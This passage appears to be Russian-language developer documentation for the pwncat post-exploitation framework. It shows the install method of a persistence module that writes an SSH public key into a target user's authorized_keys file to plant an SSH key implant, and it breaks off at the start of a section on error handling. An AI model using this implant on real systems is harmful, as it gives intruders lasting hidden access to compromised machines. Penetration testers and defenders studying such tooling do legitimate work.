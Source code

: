 ```python
    
    def install(self, session, ssh_key_path, user):
        yield Status("Проверка прав доступа")
        
        current_user = session.current_user()
        if user != "__pwncat_current__" and current_user.id != 0:
            raise ModuleFailed("Только root может установить ключ для другого пользователя")
        
        if not os.path.exists(ssh_key_path):
            raise ModuleFailed(f"Файл ключа {ssh_key_path} не существует")
        
        # Читаем публичный ключ
        try:
            with open(ssh_key_path + ".pub", "r") as f:
                public_key = f.read().strip() + "\n"
        except FileNotFoundError:
            raise ModuleFailed(f"Публичный ключ {ssh_key_path}.pub не найден")
        
        # Находим пользователя
        if user == "__pwncat_current__":
            user_info = current_user
        else:
            user_info = session.find_user(name=user)
            if not user_info:
                raise ModuleFailed(f"Пользователь {user} не найден")
        
        # Создаем .ssh директорию
        ssh_dir = session.platform.Path(user_info.home) / ".ssh"
        if not ssh_dir.exists():
            ssh_dir.mkdir(parents=True)
            session.platform.chmod(str(ssh_dir), 0o700)
        
        # Добавляем ключ в authorized_keys
        auth_keys_path = ssh_dir / "authorized_keys"
        with session.platform.open(auth_keys_path, "a") as f:
            f.write(public_key)
        
        # Устанавливаем правильные права
        session.platform.chown(str(auth_keys_path), user_info.id, user_info.gid)
        session.platform.chmod(str(auth_keys_path), 0o600)
        
        yield Status("SSH ключ установлен")
        return SSHKeyImplant(self.name, user_info, ssh_key_path, public_key)
```

## 14. Рекомендации по разработке

### 14.1. Обработка ошибок
Всегда оборачивайте код в блоки try/except и используйте исключения типа `ModuleFailed`:
